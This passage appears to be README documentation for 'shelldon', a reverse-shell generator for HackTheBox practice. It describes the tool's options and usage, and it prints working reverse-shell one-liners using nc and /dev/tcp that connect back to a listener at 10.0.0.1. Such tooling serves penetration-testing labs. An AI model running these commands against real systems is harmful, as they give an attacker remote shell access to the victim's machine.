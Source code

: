 The `.interface` option tells shelldon where to look for your current IP address. Because HackTheBox IPs change every day, shelldon will look at the tun0 interface and find your IP address. Thus when running shelldon, you don't need to type it out.

The `.port` option tells shelldon what port you prefer to listen on for your reverse shells.

The `.linuxcmd` option is the location of the interactive shell you'd like to send. Ex. `nc -e /bin/sh 10.0.0.1 53`

The `.windowscmd` option is what will be used instead if the -w option is specified. Ex. `nc.exe -e cmd.exe 10.0.0.1 53`

# Usage
```
root@kali:/opt/shelldon# shelldon --help
usage: shelldon [-h] [-c COMMAND] [-i IP] [-p PORT] [-a] [-w] [-y] [-e {single,double,both}] method

Generate a customizable reverse shell with little effort!

positional arguments:
  method                (configure, bash, perl, python, php, ruby, nc, java, powershell, ssh)

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND            Non-regular name of program (Ex. nc.exe)
  -i IP, --ip IP        Listening ip address
  -p PORT, --port PORT  Listening port
  -a, --alternate       Alternate functionality
  -w, --windows         Runs cmd.exe instead of /bin/sh
  -y, --clipboard       Saves command to clipboard instead of printing
  -e {single,double,both}, --escape {single,double,both}
                        Escapes single or double quotes. Useful for pasting

Thanks, Shelldon!
```

# Methods
## Configure
```
root@kali:/opt/shelldon# shelldon configure
Possible configurations: ['default', 'htb']
Enter new initial configuration: htb
Initial configuration changed to htb (was default)
```
The configure method allows you to change the initial configuration (located in the shelldon.conf file) used.

## Bash
```
root@kali:/opt/shelldon# shelldon bash
/bin/sh -i >& /dev/tcp/10.0.0.1/53 0>&1
```
- **No COMMAND funcionality**
- **No --alternate funcionality**
